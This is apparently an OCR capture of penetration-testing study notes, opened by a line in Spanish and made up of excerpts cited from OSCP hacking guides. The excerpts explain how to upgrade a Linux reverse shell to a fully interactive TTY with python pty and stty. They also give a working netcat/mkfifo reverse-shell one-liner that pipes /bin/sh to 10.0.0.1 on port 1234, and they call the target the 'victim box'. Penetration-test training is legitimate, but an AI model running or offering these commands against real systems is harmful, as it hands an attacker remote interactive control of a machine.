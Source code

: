 O bien puedo soltarle esto:

    Shells & Reverse

    Here’s how to upgrade your Linux reverse shell.
    python -c “import pty; pty.spawn(‘/bin/bash’)”

    You should get a nicer looking prompt, but your job isn’t over yet. Press Ctrl+Z to background your reverse shell, then in your local machine run:

    stty raw -echo
    fg

    Things are going to look really messed up at this point, but don’t worry.

    Just type reset and hit return. You should be presented with a fully interactive shell. You’re welcome.

    There’s still one little niggling thing that can happen, the shell might not be the correct height/width for your terminal. To fix this, go to your local machine and run:

    stty size

    This should return two numbers, which are the number of rows and columns in your terminal. For example’s sake let’s say this command returned 48 120 Head on back to your victim box’s shell and run the following.

    stty -rows 48 -columns 120

    You now have a beautiful interactive shell to brag about.

    Src: https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97

    ALSO (or the same):
    For the longest time when I got reverse shells I would suffer through using non-interactive shells until I learned about upgrading to interactive shells from IppSec:
    python -c ‘import pty;pty.spawn(“/bin/bash”);’
    CTRL-Z
    stty raw -echo
    fg
    ENTER
    Src: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

    Netcat
    NOTE: Most versions of netcat don’t have -e built-in
    If you’re not sure what -e does, it lets you specify a command to pipe through your reverse shell. There’s a good reason that it’s disabled on most versions of netcat — it’s a gaping security hole. Having said that, if you’re attacking a linux machine, you can get around this by using the following reverse shell one-liner.

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

    Which will pipe /bin/sh back to 10.0.0.1 on port 1234, without using the -e switch. This brings us to the next section nicely:

    Src: https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97
